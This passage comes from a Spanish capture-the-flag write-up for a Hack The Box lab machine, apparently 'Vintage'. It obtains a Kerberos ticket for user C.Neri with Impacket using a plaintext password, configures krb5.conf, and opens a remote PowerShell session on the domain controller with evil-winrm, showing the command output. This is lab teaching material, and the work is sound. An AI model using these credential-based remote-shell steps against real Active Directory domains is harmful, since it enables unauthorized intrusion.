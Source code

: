 
## Kerberos Client Setup

Si intentamos ingresar a través de `winrm` con las credenciales obtenidas, no tendremos éxito. Debemos configurar el archivo de configuración de `kerberos` para que nuestra máquina encuentre el KDC para una autenticación empleando `kerberos`

Primeramente obtendremos un TGT para el usuario `C.Neri`

~~~ bash
getTGT.py vintage.htb/C.Neri:Zer0the0ne -dc-ip 10.10.11.45
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in C.Neri.ccache
~~~

Ahora configuramos el archivo `/etc/krb5.conf` para utilizar una configuración del reino `kerberos` correctamente. De esta forma podremos hacer referencia a la máquina víctima como un KDC

~~~ bash
cat /etc/krb5.conf

[libdefaults]
  default_realm = VINTAGE.HTB
  dns_lookup_realm = false
  dns_lookup_kdc = false

[realms]
  VINTAGE.HTB = {
    kdc = vintage.htb
  }
[domain_realm]
        vintage.htb = VINTAGE.HTB
        .vintage.htb = VINTAGE.HTB
~~~


## Shell as `C.Neri`

Con la configuración preparada, utilizaremos `evil-winrm` para conectarnos a la máquina como el usuario `c.neri`

~~~ bash
evil-winrm -i DC01.vintage.htb -r vintage.htb
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\C.Neri\Documents> whoami

vintage\c.neri
~~~
